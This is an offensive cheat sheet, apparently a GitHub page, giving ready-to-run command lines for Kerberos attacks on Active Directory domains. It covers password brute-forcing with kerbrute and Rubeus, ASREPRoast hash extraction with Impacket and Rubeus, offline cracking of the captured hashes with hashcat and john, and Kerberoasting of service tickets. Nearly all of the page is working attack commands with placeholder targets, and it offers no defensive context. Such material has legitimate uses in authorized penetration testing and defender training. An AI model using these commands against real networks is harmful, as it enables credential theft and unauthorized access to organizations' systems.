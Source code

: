 With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```
